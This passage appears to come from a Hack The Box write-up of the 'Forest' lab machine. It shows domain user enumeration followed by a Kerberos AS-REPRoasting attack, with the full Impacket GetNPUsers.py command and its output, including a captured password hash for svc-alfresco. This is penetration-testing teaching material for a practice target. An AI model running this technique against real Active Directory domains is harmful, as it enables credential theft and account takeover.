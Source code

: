```aaa
enum4linux complete on Fri Mar 20 22:50:26 2020
```

The list of users appears twice in different formats in the output because enum4linux will try to list them using two different smbclient commands. With this output we can lay down a list of valid users in a file:

```aaa
┌─[✗]─[baud@parrot]─[~/HTB/forest]
└──╼ $cat users
Administrator
krbtgt
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

With a list of valid usernames there are a few paths that can be taken, the right one for this box is [Kerberos AS-REPRoasting](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/), an attack that can give us the hash of a domain account which does not have Kerberos preauthentication enabled.

[Impacket](https://github.com/SecureAuthCorp/impacket)'s GetNPUsers.py tool was written to look for this kind of accounts and request for their Ticket-Granting Tickets (TGT), from which the account's password can be cracked offline. As stated by the script's guide, an attacker doesn't necessarely need a valid set of credentials to query the target for these tickets:

```aaa
1. Get a TGT for a user:

	GetNPUsers.py contoso.com/john.doe -no-pass

For this operation you don't need john.doe's password. It is important tho, to specify -no-pass in the script, 
otherwise a badpwdcount entry will be added to the user
```

---

## Exploitation: Kerberos AS-REPRoasting

GetNPUsers.py has a very useful -usersfile flag to include a dictionary of users to query for, so in just a command we can scan the host for all users without Kerberos preauthentication, and one returns positive:

```aaa
┌─[✗]─[baud@parrot]─[~/HTB/forest]
└──╼ $python /usr/share/doc/python-impacket/examples/GetNPUsers.py htb.local/ -usersfile users -no-pass -dc-ip 10.10.10.161
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:b8bd5c57c75931d7d091b56541ad66e6$41d7f5e6af236aeeaf22932c809de144b4a9d9e87202df108b332b5289620f214d9d8edc4728f9cda60560d7f718aa91788a65b463b0d75a20711b2b04da0c6c742b731ea0cc9fd1ca7197f9fb47a69a39a7a850c6705de5e6e0b5693d88953f8a87bde312cdc85ad4573223555aac5e95408e374842113c86aa3f611c23a2c9a5148a8af83e037bdea6dab6afc858f3d55e2806eb33f7a6cce84541b87be06ae2b7e92820f04db1e742ea6ffdbb75db68c2e81b3cf27d7e9003bd10b299461e3423fb72de3fdb1ab588b88d4075348e745943ead8c5e6bf9aea7fa82a19e407d2e910623641
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```